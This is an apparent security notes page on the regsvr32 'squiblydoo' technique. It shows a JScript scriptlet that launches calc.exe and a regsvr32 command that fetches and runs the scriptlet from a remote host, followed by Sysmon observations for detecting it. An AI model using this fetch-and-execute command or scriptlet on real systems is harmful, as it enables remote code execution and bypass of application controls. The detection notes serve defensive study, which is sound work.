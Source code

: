 # regsvr32 aka squiblydoo

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline%20%281%29.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

